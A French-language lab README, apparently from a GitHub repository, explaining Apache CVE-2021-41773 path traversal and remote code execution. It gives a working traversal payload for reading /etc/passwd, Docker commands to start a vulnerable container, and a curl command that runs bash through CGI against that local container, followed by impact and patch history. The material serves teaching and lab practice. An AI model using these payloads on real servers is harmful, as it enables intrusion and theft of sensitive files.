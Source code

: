 # Apache CVE-2021-41773 : Guide de compréhension et d’exploitation  

Ce guide vous accompagne dans la compréhension et l’exploitation de la **vulnérabilité CVE-2021-41773** dans Apache, en détaillant comment **le path traversal et l'exécution de code à distance (RCE)** étaient possibles en raison d'une validation incorrecte des entrées. Vous découvrirez comment cette vulnérabilité a été introduite, comment les attaquants l'ont exploitée et comment elle a finalement été corrigée.

L’attaque **CVE-2021-41773** est une vulnérabilité découverte dans **Apache HTTP Server 2.4.49**, qui permet à un attaquant non authentifié d’accéder à des fichiers en dehors du répertoire racine du serveur via un contournement des restrictions de chemin d’accès (**path traversal**).

📌 **Problème dans le code source**  
Le problème vient d’une modification du fichier **"modules/http/http_request.c"** dans Apache 2.4.49, qui a introduit une erreur dans le processus de normalisation des chemins. Cette erreur permet aux attaquants d’utiliser des séquences comme **`../../`** pour contourner les restrictions et accéder à des fichiers arbitraires sur le serveur.

⚠️ **Détails de l’attaque**  
1. **Path Traversal** : L’attaque exploite cette mauvaise gestion des chemins pour accéder à des fichiers sensibles en dehors du répertoire autorisé.  
2. **Exécution de code** : Si le module CGI est activé, un attaquant peut exécuter du code arbitraire sur le serveur, entraînant une vulnérabilité de **Remote Code Execution (RCE)**.  
3. **Conditions** : La vulnérabilité est présente uniquement si la directive **`Require all denied`** n’est pas correctement configurée.
---

## Prerequisites

1. **Curl installé** : Assurez-vous que curl est installé sur votre système.  
   - Vérifiez avec :  
     ```bash
     curl --version
     ```

2. **Docker installé** : Assurez-vous que Docker est installé sur votre système.  
   - Vérifiez la version de Docker :  
     ```bash
     docker --version
     ```
     
## Exploiting the Vulnerability
### Payload for Exploitation
Une requête malveillante comme :  GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
permet de lire des fichiers en dehors du répertoire racine.

### Steps to Exploit

1. Télécharger l'image Docker contenant l'application vulnérable démontrant la faille RCE via path traversal
```bash
 docker pull eddycaron/diable:rcepathtraversal
```

3. Lancer l'application vulnérable dans un conteneur Docker en mode détaché (en arrière-plan) et lier le port 8080 du conteneur au port 80 de l'hôte
```bash
 docker run -d -p 8080:80 --name rcept eddycaron/diable:rcepathtraversal
```

4. Envoyer une requête HTTP malveillante via curl pour exploiter la vulnérabilité de path traversal et exécuter une commande arbitraire (bash), récupérant ainsi le fichier /etc/passwd
```bash
 curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash" -d "echo Content-Type: text/plain; echo; cat /etc/passwd" -H "Content-Type: text/plain" 
```


# Impact

- **Accès non autorisé à des fichiers sensibles** : L'exploitation de la vulnérabilité permettait à un attaquant de lire des fichiers en dehors du répertoire racine du serveur, comme des fichiers de configuration ou des mots de passe.  
- **Exécution de code à distance (RCE)** : En exploitant le CGI, un attaquant pouvait exécuter du code arbitraire sur le serveur, compromettant ainsi la sécurité du système.  
- **Exposition des systèmes** : Si la vulnérabilité n'était pas corrigée, elle exposait potentiellement des systèmes à des attaques de type **remote code execution**, entraînant un risque d'élévation de privilèges et d'accès non autorisé à des ressources sensibles.


# Mitigation
Correctif:
La vulnérabilité a été corrigée dans Apache 2.4.50, mais cette version était toujours vulnérable à une variante de l’attaque (si le caractère "point" est encodé deux fois en URL, la vulnérabilité persiste). Ce n’est qu’avec Apache 2.4.51 que le problème a été définitivement résolu.

pour plus de detaille, et pour voir le code source: https://www.hackthebox.com/blog/cve-2021-41773-explained

## Key Takeaways 

- Cette vulnérabilité illustre les risques liés à une mauvaise gestion de la normalisation des chemins dans Apache.  
- Des attaquants pouvaient exploiter cette faille pour accéder à des fichiers sensibles ou exécuter du code à distance (RCE).  
- Toujours valider et filtrer les entrées utilisateur pour éviter les attaques de type path traversal et injection de commande.  
